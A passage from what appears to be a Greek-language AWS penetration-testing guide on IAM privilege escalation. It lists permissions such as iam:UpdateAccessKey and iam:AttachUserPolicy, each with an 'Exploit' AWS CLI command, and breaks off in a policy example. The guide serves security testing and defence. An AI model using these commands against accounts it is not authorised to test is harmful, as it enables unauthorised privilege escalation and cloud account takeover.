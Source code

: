 ### **`iam:UpdateAccessKey`**

Επιτρέπει την ενεργοποίηση ενός απενεργοποιημένου access key, που ενδέχεται να οδηγήσει σε μη εξουσιοδοτημένη πρόσβαση εάν ο attacker έχει στην κατοχή του το απενεργοποιημένο access key.

**Exploit:**
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
**Επίδραση:** Άμεση κλιμάκωση προνομίων με την επανενεργοποίηση access keys.

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

Επιτρέπει τη δημιουργία ή επαναφορά διαπιστευτηρίων για συγκεκριμένες υπηρεσίες AWS (π.χ., CodeCommit, Amazon Keyspaces), κληρονομώντας τα δικαιώματα του σχετιζόμενου χρήστη.

**Exploit for Creation:**
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
**Εκμετάλλευση για Επαναφορά:**
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων εντός των δικαιωμάτων του χρήστη στην υπηρεσία.

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

Επιτρέπει την επισύναψη policies σε χρήστες ή ομάδες, κλιμακώνοντας άμεσα τα προνόμια μέσω της κληρονομίας των δικαιωμάτων της επισυναπτόμενης policy.

**Exploit for User:**
```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```
**Exploit για Ομάδα:**
```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων σε οτιδήποτε επιτρέπει η πολιτική.

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**

Επιτρέπει την επισύναψη ή την τοποθέτηση πολιτικών σε ρόλους, χρήστες ή ομάδες, επιτρέποντας άμεση κλιμάκωση προνομίων με τη χορήγηση επιπλέον δικαιωμάτων.

**Εκμετάλλευση για ρόλο:**
```bash
aws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```
**Exploit για Inline Policies:**
```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
--policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json
```
Μπορείτε να χρησιμοποιήσετε μια πολιτική όπως:
```json
{
"Version": "2012-10-17",
"Statement": [
```